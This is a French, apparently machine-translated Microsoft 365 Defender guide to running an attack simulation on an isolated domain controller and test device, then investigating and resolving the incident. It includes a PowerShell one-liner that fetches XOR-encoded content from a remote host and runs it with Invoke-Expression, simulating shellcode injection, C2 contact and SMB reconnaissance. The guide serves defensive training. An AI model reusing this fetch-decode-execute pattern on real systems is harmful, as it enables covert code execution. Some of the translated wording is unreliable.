


# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>Exécuter une simulation d’attaque dans Microsoft 365 Defender environnement pilote


Cet article est [l’étape 1 de 2](eval-defender-investigate-respond.md) dans le processus d’examen et de réponse d’un incident Microsoft 365 Defender l’aide d’un environnement pilote. Pour plus d’informations sur ce processus, consultez l’article [de](eval-defender-investigate-respond.md) présentation.

Après avoir préparé votre environnement [pilote,](eval-defender-investigate-respond.md)il est temps de tester la réponse aux incidents de Microsoft 365 Defender et les fonctionnalités d’examen et de correction automatisées en créant un incident avec une attaque simulée et en utilisant le portail Microsoft 365 Defender pour examiner et répondre.

Un incident dans Microsoft 365 Defender est une collection d’alertes corrélées et de données associées qui constitue l’histoire d’une attaque.

Microsoft 365 et applications créent des alertes lorsqu’ils détectent un événement ou une activité suspect ou malveillant. Les alertes individuelles fournissent des indices précieux sur une attaque terminée ou en cours. Toutefois, les attaques utilisent généralement différentes techniques pour différents types d’entités, telles que les appareils, les utilisateurs et les boîtes aux lettres. Le résultat est plusieurs alertes pour plusieurs entités dans votre client.

>[!Note]
>Si vous débutez avec l’analyse de la sécurité et la réponse aux incidents, consultez la procédure pas à pas Répondre à votre premier [incident](first-incident-overview.md) pour obtenir une visite guidée d’un processus classique d’analyse, de correction et de révision post-incident.
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>Simuler des attaques avec le portail Microsoft 365 Defender client

Le Microsoft 365 Defender web dispose de fonctionnalités intégrées pour créer des attaques simulées sur votre environnement pilote :

- Formation à la simulation d’attaques Microsoft 365 Defender pour Office 365 à [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) .
  
  Dans le portail Microsoft 365 Defender, sélectionnez **Email & collaboration > attack simulation training**.

- Didacticiels d& des simulations pour Microsoft 365 Defender pour les points de terminaison à [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) .

  Dans le portail Microsoft 365 Defender, sélectionnez Points de **terminaison > didacticiels & simulations.**

### <a name="defender-for-office-365-attack-simulation-training"></a>Formation à la simulation d Office 365 Defender for Office 365 Attack

Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 inclut une formation sur la simulation d’attaques pour les attaques par hameçonnage. Les étapes de base sont les suivantes :

1. Créer une simulation

   Pour obtenir des instructions détaillées sur la création et l’envoi d’une nouvelle simulation, voir [Simuler une attaque par hameçonnage.](/microsoft-365/security/office-365-security/attack-simulation-training)

2. Créer une charge utile

   Pour obtenir des instructions détaillées sur la création d’une charge utile à utiliser dans une simulation, voir Créer une charge utile personnalisée pour la formation à la [simulation d’attaques.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)

3. Obtenir des informations

   Pour obtenir des instructions détaillées sur la façon d’obtenir des informations sur les rapports, voir Obtenir des informations par le biais d’une [formation sur la simulation d’attaques.](/microsoft-365/security/office-365-security/attack-simulation-training-insights)

Pour plus d’informations, voir [Simulations.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Didacticiels d’attaque defender pour les points de terminaison & simulations

Voici les simulations defender pour point de terminaison de Microsoft :

- Document drop backdoor
- Examen automatisé (porte dérobée)

Il existe des simulations supplémentaires de Attack IQ et SafeBreach. Il existe également un ensemble de didacticiels.

Pour chaque simulation ou didacticiel :

1. Téléchargez et lisez le document de pas à pas correspondant fourni avec votre scénario ou simulation sélectionné.

2. Téléchargez le fichier de simulation. Vous pouvez choisir de télécharger le fichier ou le script sur le périphérique de test, mais ce n’est pas obligatoire.

3. Exécutez le fichier ou le script de simulation sur le périphérique de test comme indiqué dans le document.

 Pour plus d’informations, voir [Expérience de Microsoft Defender pour le point de terminaison via une attaque simulée.](/microsoft-365/security/defender-endpoint/attack-simulations)

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>Simuler une attaque avec un contrôleur de domaine isolé et un périphérique client (facultatif)

Dans cet exercice facultatif de réponse aux incidents, vous allez simuler une attaque sur un contrôleur de domaine des services de domaine Active Directory (AD DS) isolé et un périphérique Windows à l’aide d’un script PowerShell, puis examiner, corriger et résoudre l’incident.

Tout d’abord, vous devez ajouter des points de terminaison à votre environnement pilote.

### <a name="add-pilot-environment-endpoints"></a>Ajouter des points de terminaison d’environnement pilote

Tout d’abord, vous devez ajouter un contrôleur de domaine AD DS isolé et un Windows à votre environnement pilote.

1. Vérifiez que votre client d’environnement pilote [a activé Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Vérifiez que votre contrôleur de domaine :

   - Exécute Windows Server 2008 R2 ou une version ultérieure.
   - Signale à [Microsoft Defender pour l’identité et](/azure/security-center/security-center-wdatp) a activé la gestion à [distance](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Microsoft [Defender pour l’identité et Microsoft Cloud App Security’intégration](/cloud-app-security/mdi-integration) est activé.
   - Un utilisateur test est créé dans le domaine de test. Les autorisations de niveau administrateur ne sont pas nécessaires.

3. Vérifiez que votre périphérique de test :

   - S Windows 10 la version 1903 ou une version ultérieure.
   - Est joint au domaine du contrôleur de domaine AD DS.
   - A [Antivirus Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) activée. Si vous avez des difficultés à activer Antivirus Windows Defender, consultez cette [rubrique de résolution des problèmes.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-microsoft-defender-antivirus-is-not-disabled-by-a-policy)
   - Est [intégré à Microsoft Defender pour point de terminaison.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Si vous utilisez des groupes de locataires et d’appareils, créez un groupe d’appareils dédié pour le périphérique de test et faites-le avancer au niveau supérieur.

Une autre solution consiste à héberger votre contrôleur de domaine AD DS et votre périphérique de test en tant que machines virtuelles dans Microsoft Azure services d’infrastructure. Vous pouvez utiliser les instructions de la [phase 1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)du Guide de laboratoire de test d’entreprise simulée, mais ignorez la création de la machine virtuelle APP1.

Voici le résultat.



Vous allez simuler une attaque sophistiquée qui exploite des techniques avancées pour les masquer de la détection. L’attaque égrène les sessions SMB (Server Message Block) ouvertes sur les contrôleurs de domaine et récupère les adresses IP récentes des appareils des utilisateurs. Cette catégorie d’attaques n’inclut généralement pas les fichiers déposés sur l’appareil de la victime et se produisent uniquement en mémoire. Ils « habitent de la région » à l’aide des outils système et d’administration existants et injectent leur code dans les processus système pour masquer leur exécution. Ce comportement leur permet d’éviter toute détection et de persister sur l’appareil.

Dans cette simulation, notre exemple de scénario commence par un script PowerShell. Dans le monde réel, un utilisateur peut être tenté d’exécuter un script ou le script peut s’exécuter à partir d’une connexion distante vers un autre ordinateur à partir d’un appareil précédemment infecté, ce qui indique que l’attaquant tente de se déplacer ultérieurement dans le réseau. La détection de ces scripts peut être difficile, car les administrateurs exécutent souvent des scripts à distance pour effectuer diverses activités administratives.


Au cours de la simulation, l’attaque injecte du shellcode dans un processus en apparence plus complexe. Le scénario nécessite l’utilisation de notepad.exe. Nous avons choisi ce processus pour la simulation, mais les attaquants cibleraient probablement un processus système de longue durée, tel que svchost.exe. Le shellcode contacte ensuite le serveur de commande et de contrôle (C2) de l’attaquant pour recevoir des instructions sur la façon de continuer. Le script tente d’exécuter des requêtes de reconnaissance sur le contrôleur de domaine ( DC). La reconnaissance permet à une personne malveillante d’obtenir des informations sur les informations de connexion utilisateur récentes. Une fois que les personnes malveillantes ont ces informations, elles peuvent se déplacer ultérieurement dans le réseau pour obtenir un compte sensible spécifique.

> [!IMPORTANT]
> Pour obtenir des résultats optimaux, suivez les instructions de simulation d’attaque aussi étroitement que possible.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Exécuter la simulation d’attaque de contrôleur de domaine AD DS isolé

Pour exécuter la simulation de scénario d’attaque :

1. Assurez-vous que votre environnement pilote inclut le contrôleur de domaine AD DS isolé et Windows appareil.

2. Connectez-vous au périphérique de test avec le compte d’utilisateur test.

3. Ouvrez une Windows PowerShell sur le périphérique de test.

4. Copiez le script de simulation suivant :

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Si vous ouvrez cet article sur un navigateur web, vous pouvez rencontrer des problèmes lors de la copie du texte intégral sans perdre certains caractères ou introduire des coupures de ligne supplémentaires. Si tel est le cas, téléchargez ce document et ouvrez-le sur Adobe Reader.

5. Collez et exécutez le script copié dans la fenêtre PowerShell.

> [!NOTE]
> Si vous exécutez PowerShell à l’aide du protocole RDP (Remote Desktop Protocol), utilisez la commande Type Clipboard Text dans le client RDP, car la méthode **CTRL-V** hotkey ou right-click-paste risque de ne pas fonctionner. Les versions récentes de PowerShell n’acceptent parfois pas non plus cette méthode, vous de devez d’abord copier vers Bloc-notes en mémoire, la copier dans la machine virtuelle, puis la coller dans PowerShell.

Quelques secondes plus tard, l’Bloc-notes’application s’ouvre. Un code d’attaque simulée est injecté dans Bloc-notes. Gardez l’instance générée automatiquement Bloc-notes ouverte pour découvrir le scénario complet.

Le code d’attaque simulée tente de communiquer avec une adresse IP externe (simulant le serveur C2), puis de tenter la reconnaissance sur le contrôleur de domaine via SMB.

Ce message s’affiche sur la console PowerShell lorsque ce script se termine :

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Pour voir la fonctionnalité Incident et réponse automatisé en action, maintenez le processus notepad.exe ouvert. Les incidents et réponses automatisés arrêtent le processus de Bloc-notes automatique.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Examiner l’incident pour l’attaque simulée

> [!NOTE]
> Avant de vous suivre dans cette simulation, regardez la vidéo suivante pour voir comment la gestion des incidents vous aide à rassembler les alertes associées dans le cadre du processus d’examen, où vous pouvez la trouver dans le portail et comment elle peut vous aider dans vos opérations de sécurité :

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Si vous basculez vers le point de vue de l’analyste SOC, vous pouvez maintenant commencer à examiner l’attaque dans Microsoft 365 Defender portail.

1. Ouvrez [le Microsoft 365 Defender.](https://security.microsoft.com/)

2. Dans le volet de navigation, sélectionnez **Incidents & Alerts > Incidents**.

3. Le nouvel incident pour l’attaque simulée s’affiche dans la file d’attente des incidents.

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>Examiner l’attaque en tant qu’incident unique

Microsoft 365 Defender corréle les analyses et regroupe toutes les alertes et enquêtes associées de différents produits en une seule entité d’incident. Ce faisant, Microsoft 365 Defender présente un scénario d’attaque plus large, ce qui permet à l’analyste SOC de comprendre et de répondre aux menaces complexes.

Les alertes générées au cours de cette simulation sont associées à la même menace et, par conséquent, sont automatiquement agrégées en tant qu’incident unique.

Pour afficher l’incident :

1. Ouvrez [le Microsoft 365 Defender.](https://security.microsoft.com/)

2. Dans le volet de navigation, sélectionnez **Incidents & Alerts > Incidents**.

3. Sélectionnez le dernier élément en cliquant sur le cercle situé à gauche du nom de l’incident. Un panneau latéral affiche des informations supplémentaires sur l’incident, y compris toutes les alertes associées. Chaque incident possède un nom unique qui le décrit en fonction des attributs des alertes qu’il inclut.

   Les alertes affichées dans le tableau de bord peuvent être filtrées en fonction des ressources de service : Microsoft Defender pour l’identité, Microsoft Cloud App Security, Microsoft Defender pour le point de terminaison, Microsoft 365 Defender et Microsoft Defender pour Office 365.

3. Sélectionnez **Ouvrir la page Incident** pour obtenir plus d’informations sur l’incident.

   Dans la page **Incident,** vous pouvez voir toutes les alertes et informations relatives à l’incident. Les informations incluent les entités et les ressources impliquées dans l’alerte, la source de détection des alertes (par exemple, Microsoft Defender pour l’identité ou Microsoft Defender pour le point de terminaison) et la raison pour laquelle elles ont été liées. L’examen de la liste d’alertes d’incident indique la progression de l’attaque. À partir de cette vue, vous pouvez voir et examiner les alertes individuelles.

   Vous pouvez également cliquer sur **Gérer l’incident** à partir du menu droit pour marquer l’incident, l’affecter à vous-même et ajouter des commentaires.

#### <a name="review-generated-alerts"></a>Passer en revue les alertes générées

Examinons quelques-unes des alertes générées pendant l’attaque simulée.

> [!NOTE]
> Nous n’allons passer en détail que quelques-unes des alertes générées pendant l’attaque simulée. Selon la version de Windows et les produits Microsoft 365 Defender en cours d’exécution sur votre périphérique de test, vous pouvez voir d’autres alertes qui s’affichent dans un ordre légèrement différent.


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>Alerte : injection de processus suspect observée (Source : Microsoft Defender pour point de terminaison)

Les attaquants avancés utilisent des méthodes sophistiquées et sophistiquées pour persister en mémoire et masquer les outils de détection. Une technique courante consiste à opérer à partir d’un processus système approuvé plutôt qu’à un exécutable malveillant, ce qui rend difficile pour les outils de détection et les opérations de sécurité de repérer le code malveillant.

Pour permettre aux analystes SOC de capturer ces attaques avancées, les capteurs de mémoire profonde dans Microsoft Defender pour Endpoint fournissent à notre service cloud une visibilité sans précédent sur diverses techniques d’injection de code entre processus. La figure suivante montre comment Defender pour point de terminaison a détecté et alerté sur la tentative d’injection de code <i>notepad.exe</i>.


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>Alerte : comportement inattendu observé par un processus exécuté sans argument de ligne de commande (Source : Microsoft Defender pour le point de terminaison)

Les détections de Microsoft Defender pour les points de terminaison ciblent souvent l’attribut le plus courant d’une technique d’attaque. Cette méthode garantit la dulité et fait monter la barre pour que les attaquants basculent vers des tactiques plus nouvelles.

Nous employons des algorithmes d’apprentissage à grande échelle pour établir le comportement normal des processus courants au sein d’une organisation et dans le monde entier et nous regardons quand ces processus montrent des comportements anormaux. Ces comportements anormaux indiquent souvent que du code superflu a été introduit et s’exécute dans un processus autrement approuvé.

Dans ce scénario, le <i> processus </i>notepad.exeprésente un comportement anormal, impliquant une communication avec un emplacement externe. Ce résultat est indépendant de la méthode spécifique utilisée pour introduire et exécuter le code malveillant.

> [!NOTE]
> Étant donné que cette alerte est basée sur des modèles d’apprentissage automatique qui nécessitent un traitement principal supplémentaire, il peut prendre un certain temps avant que cette alerte ne s’y trouve dans le portail.

Notez que les détails de l’alerte incluent l’adresse IP externe, un indicateur que vous pouvez utiliser comme tableau croisé dynamique pour développer l’examen.

Sélectionnez l’adresse IP dans l’arborescence du processus d’alerte pour afficher la page des détails de l’adresse IP.


La figure suivante affiche la page de détails de l’adresse IP sélectionnée (en cliquant sur l’adresse IP dans l’arborescence du processus d’alerte).


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Alerte : Reconnaissance des utilisateurs et des adresses IP (SMB) (Source : Microsoft Defender pour l’identité)

L’éumération à l’aide du protocole SMB (Server Message Block) permet aux personnes malveillantes d’obtenir des informations récentes sur l’utilisateur qui les aident à se déplacer ultérieurement sur le réseau pour accéder à un compte sensible spécifique.

Dans cette détection, une alerte est déclenchée lorsque l’éumération de session SMB s’exécute sur un contrôleur de domaine.


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>Passer en revue la chronologie de l’appareil avec Microsoft Defender pour le point de terminaison

Après avoir examiné les différentes alertes de cet incident, revenir à la page d’incident que vous avez examinée précédemment. Sélectionnez **l’onglet** Appareils dans la page Incident pour passer en revue les appareils impliqués dans cet incident, comme indiqué par Microsoft Defender pour le point de terminaison et Microsoft Defender pour l’identité.

Sélectionnez le nom de l’appareil sur lequel l’attaque a eu lieu, pour ouvrir la page d’entité pour cet appareil spécifique. Dans cette page, vous pouvez voir les alertes déclenchées et les événements connexes.

Sélectionnez **l’onglet** Chronologie pour ouvrir la chronologie de l’appareil et afficher tous les événements et comportements observés sur l’appareil dans l’ordre chronologique, entrecoupés des alertes.


Le développement de certains comportements plus intéressants fournit des détails utiles, tels que les arbre de processus.

Par exemple, faites défiler vers le bas jusqu’à ce que vous trouviez **l’événement d’alerte d’injection de processus suspect observé.** Sélectionnez le **powershell.exe** injecté dans notepad.exe événement de processus sous celui-ci, pour afficher l’arborescence de processus complète pour ce comportement sous le graphique **Entités** d’événements dans le volet latéral. Utilisez la barre de recherche pour le filtrage si nécessaire.


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>Passer en revue les informations utilisateur à l’Microsoft Cloud App Security

Dans la page Incident, sélectionnez **l’onglet Utilisateurs** pour afficher la liste des utilisateurs impliqués dans l’attaque. Le tableau contient des informations supplémentaires sur chaque utilisateur, y compris le score de priorité d’examen **de chaque** utilisateur.

Sélectionnez le nom d’utilisateur pour ouvrir la page de profil de l’utilisateur dans laquelle une enquête plus approfondie peut être menée. [En savoir plus sur l’étude des utilisateurs à risque.](/cloud-app-security/tutorial-ueba#identify)


#### <a name="automated-investigation-and-remediation"></a>Investigation et résolution automatiques

> [!NOTE]
>Avant de vous suivre dans cette simulation, regardez la vidéo suivante pour vous familiariser avec ce qu’est la auto-ressource automatisée, où la trouver dans le portail et comment elle peut vous aider dans vos opérations de sécurité :

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Revenir à l’incident dans le portail Microsoft 365 Defender web. **L’onglet** Enquêtes de la page **Incident** affiche les enquêtes automatisées déclenchées par Microsoft Defender pour l’identité et Microsoft Defender pour le point de terminaison. La capture d’écran ci-dessous affiche uniquement l’examen automatisé déclenché par Defender for Endpoint. Par défaut, Defender pour le point de terminaison remédie automatiquement aux artefacts trouvés dans la file d’attente, ce qui nécessite une correction.


Sélectionnez l’alerte qui a déclenché un examen pour ouvrir la page **Détails de l’examen.** Vous verrez les détails suivants :

- Alerte qui a déclenché l’examen automatisé.
- Utilisateurs et appareils touchés. Si des indicateurs sont trouvés sur des appareils supplémentaires, ces appareils supplémentaires sont également répertoriés.
- Liste des preuves. Les entités trouvées et analysées, telles que les fichiers, les processus, les services, les pilotes et les adresses réseau. Ces entités sont analysées pour les relations possibles avec l’alerte et sont classés comme étant anodins ou malveillants.
- Menaces trouvées. Menaces connues trouvées pendant l’enquête.

> [!NOTE]
> Selon le délai, l’enquête automatisée est peut-être en cours d’exécution. Patientez quelques minutes avant de collecter et d’analyser les preuves et de passer en revue les résultats. Actualisez la page **Détails de l’examen** pour obtenir les dernières conclusions.


Au cours de l’examen automatisé, Microsoft Defender pour le point de terminaison a identifié le processus notepad.exe, qui a été injecté en tant qu’un des artefacts nécessitant une correction. Defender pour le point de terminaison arrête automatiquement l’injection de processus suspect dans le cadre de la correction automatisée.

Vous pouvez <i> voir </i>notepad.exedisparaître de la liste des processus en cours d’exécution sur le périphérique de test.

#### <a name="resolve-the-incident"></a>Résoudre l’incident

Une fois que l’examen est terminé et que la correction a été confirmée, vous résolvez l’incident.

Dans la page **Incident,** sélectionnez **Gérer l’incident.** Définissez l’état sur **Résoudre l’incident** et sélectionnez **Alerte true** pour la classification et les tests **de** sécurité pour la détermination.


Lorsque l’incident est résolu, il résout toutes les alertes associées dans Microsoft 365 Defender portail et dans les portails associés.

Cela termine la simulation d’attaque pour l’analyse des incidents, l’examen automatisé et la résolution des incidents.

## <a name="next-step"></a>Étape suivante

[](eval-defender-investigate-respond-additional.md)

Étape 2 sur 2 : Essayez [d’Microsoft 365 Defender fonctionnalités de réponse aux incidents](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>Navigation dont vous aurez peut-être besoin

[Créer l’environnement d Microsoft 365 Defender évaluation de l’environnement](eval-create-eval-environment.md)
